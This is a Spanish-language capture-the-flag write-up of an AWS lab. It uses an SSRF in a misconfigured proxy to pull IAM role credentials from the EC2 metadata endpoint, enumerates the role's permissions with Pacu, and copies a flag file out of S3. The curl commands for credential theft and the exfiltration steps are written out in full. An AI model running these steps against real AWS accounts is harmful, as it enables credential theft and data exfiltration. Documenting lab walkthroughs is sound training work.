

# Previo: Instalar pacu
Pacu es un framework de explotación de AWS que usaremos en este CTF. 
No viene instalado por defecto en Kali pero sí que está en el package manager de Python, así que podemos instalarlo fácilmente:
`pip install -y pacu`
# Resolución del CTF
Disponemos de una IP pública como la única información del CTF. 
Podemos tirarle un nmap para ver puertos, y veremos que no hay mucha información además de un puerto 22 y 80. 
El vector de ataque está en el puerto 80, de hecho, si lanzamos un curl nos dará un mensaje de error interesante:

El endpoint de metadatos de AWS está siempre en la misma IP dentro de las redes privadas de AWS donde los EC2 se ejecutan, y este endpoint es usado por los EC2 para consultar información dinámicamente de sus metadatos. 
Si conseguimos información acerca de los metadatos del EC2, como sus credenciales, podemos ejecutar acciones bajo los privilegios que tenga este EC2. Generalmente acceder a este endpoint no es posible, a no ser que explotemos una vulnerabilidad SSRF (Server-Side Request Forgery) o tengamos ejecución de código en el EC2.

El siguiente paso, por tanto, sería consultar este endpoint de metadatos (ya que el EC2 tiene el proxy mal configurado y permite consultas a este endpoint):
`curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'`

Vemos que el EC2 está bajo un rol de AWS que quizás tenga permisos interesantes. Usando este mismo endpoint de metadatos podemos acceder a las credenciales de este rol:
`curl http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'`

Con las credenciales (AccessKeyId, SecretAccessKey y el Token) podemos utilizar este rol, que tendrá políticas asociadas:
`aws configure --profile cg-banking-WAF-Role-ctf` 

Es necesario añadir el token porque la cuenta root de AWS tiene el 2FA activado (si no no haría falta este paso). Debemos de añadirlo en `~/.aws/credentials`:

Podemos ver información del rol de AWS con el siguiente comando:
`aws sts get-caller-identity --profile cg-banking-WAF-Role-ctf`

Si intentamos listar las políticas attacheadas del rol, vemos que no tenemos permisos de IAM para ejecutar dicha operación:

Por tanto, debemos tirar de alguna herramienta para enumerar qué políticas interesantes tenemos con este rol.
Ejecutamos pacu (que hemos instalado previamente) y dentro de pacu, seleccionamos el rol que hemos configurado previamente:
`import_keys <role>`

Y ejecutamos el script para bruteforcear permisos (tarda un rato):
`run __iam_bruteforce_permissions`

Vemos que hay permisos interesantes, muchos de ellos no nos dan información y otros son rabbit hole.
Uno de los permisos interesantes es listar Buckets S3, que son repositorios de información donde comúmente puede haber archivos confidenciales.
Vamos a listar los buckets que hay en esta cuenta de AWS con el rol que hemos robado:
`aws s3 ls --profile` 

Hay un bucket disponible. Vamos a ver qué archivos hay dentro: 
`aws s3 ls --profile s3://<s3-name>` 

Vaya! Hay un archivo que parece confidencial. También, y por suerte, disponemos de permisos para copiar archivos de S3, así que podemos exfiltrarlo:
`aws s3 cp s3://cg-cardholder-data-bucket-etsiit-ctf-aws-scenario-1/flag.txt flag.txt --profile cg-banking-WAF-Role-ctf`

Finalmente podemos visualizar la flag y comprobar que, efectivamente, hay información confidencial dentro:

